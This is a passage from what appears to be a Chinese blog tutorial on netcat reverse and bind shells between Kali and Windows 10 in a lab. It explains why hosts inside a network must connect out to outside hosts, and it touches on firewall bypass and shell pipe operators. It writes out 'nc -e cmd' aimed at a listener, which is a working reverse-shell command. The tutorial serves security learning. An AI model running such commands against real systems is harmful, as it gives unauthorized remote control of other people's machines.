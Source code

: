 ![image-20250523114236235](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170033001-668301715.png)

win10操作kali的终端：

![image-20250523114254619](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170033350-1268291467.png)



**Linux->windows**

kali监听端口

```
nc -lvp 80
```

![image-20250523122121679](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170033727-1780185198.png)

win10的cmd绑定到kali的端口

```
nc -e cmd 172.22.161.122 80
```

kali操作win10

![image-20250523122436217](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170034065-6921708.png)



### 内外网

**外->内**

外网的一台计算机要控制内网的一台计算机，需要内网的去找外网的，也就是反向连接

因为外网的ip是全球唯一的，外网去找内网找到的是内网出去的，再下去内网找就找不到那个具体的

需要外网的先监听，然后内网的把cmd绑到外网的端口上让外网进行操作

![image-20250523115511200](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170034426-942556700.png)

**内->外**

这个就可以直接用正向连接，在外网把自己的cmd绑定到端口，内网直接nc连接端口

因为外网的ip是唯一的，内网连接的那个就是特定的外网



## 防火墙绕过-正向连接&反向连接&内网服务器  

管道符：

| (管道符号) 

||（逻辑或） 

&&（逻辑与） 
